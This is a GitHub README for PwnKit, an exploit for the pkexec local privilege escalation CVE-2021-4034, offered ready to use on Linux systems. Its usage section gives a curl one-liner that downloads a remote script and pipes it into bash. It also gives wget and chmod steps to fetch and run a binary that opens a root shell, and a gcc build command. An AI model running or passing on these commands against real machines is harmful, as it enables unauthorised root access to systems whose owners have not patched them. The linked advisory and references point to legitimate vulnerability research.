


# PwnKit

Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation

## Usage

Should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```bash
bash -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

### Manual

```bash
wget https://github.com/ly4k/PwnKit/raw/main/PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command
```

### Build

```bash
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

## Example

### Vulnerable



### Patched



## Technical Details

- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

## References

- https://github.com/arthepsy/CVE-2021-4034/